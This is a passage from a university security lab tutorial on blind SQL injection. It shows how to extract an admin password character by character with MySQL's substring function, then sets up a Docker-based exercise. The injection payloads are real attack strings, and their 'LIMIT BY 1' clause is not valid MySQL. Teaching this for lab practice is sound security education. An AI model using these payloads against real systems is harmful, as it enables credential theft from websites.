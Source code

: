 This methodology can also be used to exfiltrate the values of the password by brute-forcing the value of a character in the password until the full password has been leaked. Instead of using the `length` function to exfiltrate the length of the password, you can use the MySQL `substring` function (if the DB management system is MySQL). `substring` returns a substring of a string, for example `substring("hack the planet", 4, 1)` would return the letter `k`. Now let's say that the actual password for the `admin` account is `carrot`. An attacker can retrieve the full value of the payload as shown below:

```
# Count is 0 since the first letter of the password is not 'a'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 1, 1)='a'--

# Count is 0 since the first letter of the password is not 'b'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 1, 1)='b'--

# Count is 1 since the first letter of the password is 'c'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 1, 1)='c'--

# Count is 1 since the second letter of the password is 'a'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 2, 1)='a'--

# Count is 0 since the third letter of the password is not 'a'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 3, 1)='a'--

...
```

There is one issue with this approach. For MySQL, string searches for non-binary strings (`CHAR`, `VARCHAR` and `TEXT`) using the collation of the comparison operands and are **case insensitive**! However, binary strings (`BINARY`, `VARBINARY` and `BLOB`) compare the numeric values of the bytes and the comparison is **case sensitive**. The following exercise would be constructing a Blind-based SQLi payload that is **case sensitive**.

### 6.1.6 Blind-based SQLi Exercise

For this exercise, download [docker-compose.sqli\_blind.yml](files/lab6/docker-compose-files/docker-compose.sqli\_blind.yml).&#x20;

```
wget https://raw.githubusercontent.com/uwacyber/cits3006/2022s2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.sqli_blind.yml
```

{% hint style="info" %}
M1/M2 users: you have to make three changes:\
1\. Line 6 - change the image name to `uwacyber/cits3006:sqli-blind-arm64`&#x20;

2\. Line 16 - change the image name to `arm64v8/mysql:8.0.30`

3\. Line 18 - change the platform to `linux/arm64`
{% endhint %}

